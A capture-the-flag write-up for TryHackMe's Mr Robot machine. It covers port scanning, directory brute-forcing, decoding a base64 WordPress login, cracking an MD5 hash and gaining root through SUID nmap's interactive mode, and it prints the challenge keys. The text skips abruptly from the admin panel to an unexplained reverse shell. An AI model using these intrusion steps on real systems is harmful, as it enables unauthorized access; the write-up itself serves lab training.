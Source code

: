 # Mr Robot CTF
---

|Machine|Platform|Difficulty
|-|-|-
|Mr Robot CTF|TryHackMe|Medium

**Challenge Description:** Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

# Approach

Initial Nmap scan for all open TCP ports:

```bash
haxor@debian:~$ sudo nmap -sS -Pn -n --min-rate 5000 --max-retries -p- --open 10.10.70.206
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-13 01:33 CDT
Warning: 10.10.70.206 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.70.206
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

Nmap scan for all discovered open TCP ports enumerating their service's version and using basic Nmap reconnaissance scripts:

```bash
haxor@debian:~$ sudo nmap -sSCV -Pn -n -p80,443 10.10.70.206
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-13 01:36 CDT
Nmap scan report for 10.10.70.206
Host is up (0.19s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.78 seconds
```

The website exposed on port 80 looks like this, which appears to be an interactive terminal to navigate trough different functionalities:

![](../assets/image.png)

Wappalizer detected the website is a WordPress blog, interesting places like the **wp-admin** or **robots.txt** sections might be useful to enumerate, after playing around with the site and reviewing its source code, I tried access the **robots.txt** file and discovered the following:

![](image-1.png)

The first key is `073403c8a58a1f80d943455fb30724b9`. If we investigate the other resource listed on **robots.txt**, we will find what seems to be a wordlist:

![](image-2.png)

Either the wordlist contains a valid directory or credentials we can use for the admin panel, so I downloaded it:

```bash
haxor@debian:~/machines/mrRobot$ wget http://10.10.109.37/fsocity.dic > wordlist.txt
--2024-10-13 11:20:26--  http://10.10.109.37/fsocity.dic
Connecting to 10.10.109.37:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic         100%[===================>]   6.91M   895KB/s    in 9.1s    

2024-10-13 11:20:36 (776 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
```

I will enumerate first for sub-directories with the downloaded wordlist:

```bash
haxor@debian:~/machines/mrRobot$ gobuster dir -u http://10.10.109.37 -w fsocity.dic 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.109.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                fsocity.dic
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/13 11:56:06 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.109.37/images/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.109.37/css/]
/image                (Status: 301) [Size: 0] [--> http://10.10.109.37/image/]
/license              (Status: 200) [Size: 309]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.109.37/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.109.37/video/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.109.37/audio/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.109.37/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.109.37/blog/]
/intro                (Status: 200) [Size: 516314]
```

If we go and try to explote **license** directory, we will find the following line from the **Mr Robot** show:

![](image-7.png)

Analyzing the website's source code we see the following:

![](image-8.png)

There is a base64 encoded string that is not being shown apparently due to an overflow present on the "pre" HTML tag (taking a closer look to the string inside the tag will result in a very big string).

```bash
haxor@debian:~/Downloads$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

It seems we got a **user:password** string, since the challenge's website is a Wordpress blog, we can check if the output are indeed valid credentials:

![](image-9.png)
 
Entering the wrong password will result in Wordpress telling us that "elliot" is a valid user, so we can now try its password:

![](image-10.png)

And we are in! After exploring the blog management panel and finding nothing but another user (which hasn't been very useful), Wordpress contain multiple PHP scripts for various scenarios such as, what if a page doesn't exist

Exploring the machine with the obtained reverse shell we see the following on the **/home/robot** directory:

```bash
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt
password.raw-md5
```

If we try to read the key txt file, we won't be able to do that since its permissions are:

```bash
daemon@linux:/home/robot$ ls -l 
ls -l 
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

But notice we can read password.raw-md5:

```bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Crackstation can actually decrypt the hash, if we try that, we get the following results:

![](image-11.png)

Where the cracked hash turns out to be: `abcdefghijklmnopqrstuvwxyz`

However, we need to consider we won't be able to change our user using the cracked hash as reading the **/etc/passwd** and filtering for the **robot** user will throw the following:

```bash
daemon@linux:/home/robot$ cat /etc/passwd | grep robot
robot:x:1002:1002::/home/robot:
```

**robot** doesn't have an assigned shell, and we can't assign shells to users since it implies elevated privileges, so the final stept is to look for SUID or SGID to become root:

```bash
daemon@linux:/home/robot$ find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

All looks normal except for one binary: `/usr/local/bin/nmap` (usually there are a lot of SUID binaries present on a system, one advice is that you can ask ChatGPT to target suspect binaries or use your logic which I prefer the most).

Nmap is usually never found as SUID, and is a perfect SUID to become root as nmap has an --interactive mode to execute comands:

```bash 
nmap --interactive

nmap> ! whoami
root
```

since we are root, we can read all keys that are present on the system:

```bash 
nmap> ! cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959

nmap> ! cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

With all of that done, the machine is compromised!